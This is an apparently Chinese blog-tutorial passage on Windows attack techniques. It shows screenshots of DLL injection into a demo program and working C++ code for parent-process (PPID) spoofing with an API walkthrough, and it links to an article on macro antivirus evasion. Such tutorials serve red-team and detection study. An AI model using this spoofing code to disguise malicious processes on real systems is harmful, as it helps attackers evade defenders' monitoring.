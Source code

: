 运行Demo.exe，然后先遍历模块

![](https://gitee.com/fuli009/images/raw/master/public/20210810104606.png)

dll注入

![](https://gitee.com/fuli009/images/raw/master/public/20210810104608.png)![](https://gitee.com/fuli009/images/raw/master/public/20210810104609.png)![](https://gitee.com/fuli009/images/raw/master/public/20210810104611.png)

# 0x06 PPID欺骗

PPID欺骗允许使用任意进程启动程序

同理先判断父进程是否存在

    
    
    DWORD GetParanetProcessID(char* ParanetProcessName) {    BOOL Check = CheckPorcess(ParanetProcessName);    if (Check) {        HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);        PROCESSENTRY32 pe32 = { 0 };        pe32.dwSize = sizeof(PROCESSENTRY32);        BOOL bRet = Process32First(hSnap, &pe32);        while (bRet)        {            Process32Next(hSnap, &pe32);            if (strcmp(pe32.szExeFile, ParanetProcessName) == 0) {                ppid = pe32.th32ProcessID;                break;            }        }        CloseHandle(hSnap);    }    return ppid;}
    
    
    void PpidSpoofing(char* ProcessAddr,DWORD ParaentPid) {    STARTUPINFOEXA si = { 0 };    si.StartupInfo.cb = sizeof(STARTUPINFOEXA);    PROCESS_INFORMATION pi = { 0 };    SIZE_T SizeBuff;    HANDLE parentProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, false, ParaentPid);    ZeroMemory(&si, sizeof(STARTUPINFOEXA));    InitializeProcThreadAttributeList(NULL, 1, 0, &SizeBuff);    si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, SizeBuff);    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &SizeBuff);    UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parentProcessHandle, sizeof(HANDLE), NULL, NULL);    BOOL bRet = CreateProcessA(ProcessAddr, NULL, NULL, NULL, TRUE, CREATE_NEW_CONSOLE | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);    if (!bRet) {        printf("ProcessAddr error!");    }    CloseHandle(parentProcessHandle);}

首先我们要获取父进程的进程句柄然后为进程和线程创建初始化指定的属性列表使用InitializeProcThreadAttributeList。

    
    
    BOOL InitializeProcThreadAttributeList(  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,  DWORD                        dwAttributeCount,  DWORD                        dwFlags,  PSIZE_T                      lpSize);

最后一个参数指定输入时lpAttributeList缓冲区的大小。si.lpAttributeList在堆中分配一块内存，分配的大小为前面的SizeBuff。然后再使用InitializeProcThreadAttributeList初始化进程和线程的属性列表最后使用UpdateProcThreadAttribute函数来更新进程和线程的指定属性，最后创建我们的进程。

![](https://gitee.com/fuli009/images/raw/master/public/20210810104612.png)![]()

**![](https://gitee.com/fuli009/images/raw/master/public/20210810104613.png)**

  

 **推荐阅读：**

  

[Office如何快速进行宏免杀](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247492416&idx=1&sn=c444b28f7aa67e9ee15d42bc1aeef10d&chksm=ec1cb67fdb6b3f69d33753fd68cad86f401c07f5fddb3157c81468cab144978a5fb3840da037&scene=21#wechat_redirect)  
